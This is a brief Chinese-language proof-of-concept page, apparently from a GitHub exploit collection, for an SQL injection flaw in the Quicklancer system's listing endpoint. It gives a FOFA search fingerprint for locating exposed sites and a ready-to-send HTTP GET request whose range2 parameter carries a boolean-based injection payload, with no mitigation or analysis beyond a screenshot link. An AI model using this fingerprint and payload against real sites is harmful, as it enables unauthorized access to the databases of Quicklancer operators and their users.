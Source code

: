 # Quicklancer系统接口listing存在SQL注入漏洞



## fofa

```java
"service_fragments/css/gig_detail.css"
```

## poc

```java
GET /listing?cat=6&filter=1&job-type=1&keywords=Mr.&location=1&order=desc&placeid=US&placetype=country&range1=1&range2=1) AND 6477=6477 AND (1232=1232&salary-type=1&sort=id&subcat= HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
```

![image-20240730213839364](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407302138415.png)